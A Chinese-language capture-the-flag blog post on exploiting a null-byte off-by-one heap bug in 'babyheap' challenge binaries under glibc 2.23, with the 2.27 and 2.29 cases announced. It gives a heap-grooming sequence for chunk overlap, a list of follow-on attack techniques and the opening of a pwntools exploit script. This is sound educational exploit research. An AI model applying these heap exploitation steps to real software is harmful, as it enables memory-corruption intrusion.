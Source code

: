 ```yaml
---
title: 'OFF_BY_ONE:2.2n'
date: 2019-06-11 21:06:05
tags: heap
layout: post
---
```

OFF_BY_ONE 番外篇: 在不同libc下的利用探索 (2.23 2.27 2.29)

# Start
此为[OFF_BY_ONE][0]番外娱乐篇 尝试以下各个版本libc下如何利用OFF_BY_ONE

2.23与2.27使用的[binary][1]为`QCTF_2018`的`babyheap`
2.29下使用的[binary][2]是`0ctf2019-final`的`babyheap2.29`
本文所述`OFF_BY_ONE`均为`NULLBYTE`
主要起因是我做`0ctf2019`的babyheap2.29发现我之前了解的不太全面
# Anylysis
程序比较简单全保护,漏洞点在`add`处的`OFF_BY_ONE`
没有`edit`有`show`,输入会在后面加`\x00`截断.

# 2.23
`libc-2.23`这里作为没有`tcache`机制的代表之前已经被玩烂了.主要的探索过程在原始篇已经讲的较为详细这里直接贴上一般利用过程.
```python
add(0x400)#0
add(0x88)#1
add(0x88)#2
free(0)
add(0x18,"A"*0x18)#0
add(0x88)#3
add(0x88)#4
free(3)
free(1)
add(0x1e0-8)#fill
```
这时候就可以造成overlap之后
* 有泄漏
可以通过`overlap`泄漏,之后通过`double_free`或者`overlap`做`fastbin_atk`来继续exp.
* 没泄漏但是给了用重要意义的地址
尝试通过 `House of storm` 控制
* 没泄漏的话可以用`Unsorted bin`攻击
- 控制`stdout`
- 或者`hooks`去做`partial_write`(概率较低一般比较难打通.)

反正有了`Overlap`之后大家就可以根据题目特性和环境特性各显神通啦。

之前那篇也主要讲没有tcache的情况所以在,这里只做简单的复习.
这里简单地贴上exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter(":\n",str(c))
def add(size,c="A\n"):
	cmd(1)
	p.sendlineafter(": \n",str(size))
	p.sendafter(": \n",c)
def cheat(size):
	cmd(1)
	p.sendlineafter(": \n",str(size))
def free(idx):
	cmd(2)
```

[0]: https://n132.github.io/2019/04/11/2019-04-11-Off-by-one/
[1]: https://github.com/n132/Watermalon/tree/master/QCTF_2018/babyheap
[2]: https://github.com/n132/Watermalon/tree/master/0CTF_2019/babeheap229